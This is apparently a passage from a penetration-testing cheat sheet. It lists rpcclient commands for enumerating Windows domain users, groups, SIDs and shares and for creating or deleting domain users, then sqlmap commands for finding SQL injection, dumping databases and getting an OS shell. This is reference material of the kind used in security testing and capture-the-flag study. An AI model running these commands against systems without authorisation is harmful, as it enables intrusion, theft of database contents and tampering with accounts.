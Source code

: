 ```
getuserdompwinfo <RID> #password policy, get user-RID from previous command
lookupnames <USER> #SID of specified user
createdomuser <USERNAME> #Creates a user
deletedomuser <USERNAME> #Deletes the user
enumdomains
enumdomgroups
querygroup <group-RID> #get RID from previous command
querydispinfo # Description of all users
netshareenum #Share enumeration and only comes up if the current user you are logged in with has permissions
netshareenumall
lsaenumsid #SID of all users
```
### SQLMap
- Check all pages for injectability
```
sqlmap -u <URL> --crawl=1
```
- Get current user
```
sqlmap -u <URL> --current-user
```
- Get databases
```
sqlmap -u <URL> --dbs
```
- Get current database
```
sqlmap -u <URL> --current-database
```
- Get all data from database
```
sqlmap -u <URL> --dump --threads=<NUMBER_OF_THREADS>
```
- Get tables
```
sqlmap -u <URL> -D <DATABASE> --tables
```
- Get columns
```
sqlmap -u <URL> -D <DATABASE> -T <TABLE> --columns
```
- Get a dump
```
sqlmap -u <URL> -D <DATABASE> -T <TABLE> -C <COLUMNS (can be separated by ,)> --dump
```
- Attempt to get a shell on target
```
sqlmap -u <URL> --os-shell
```
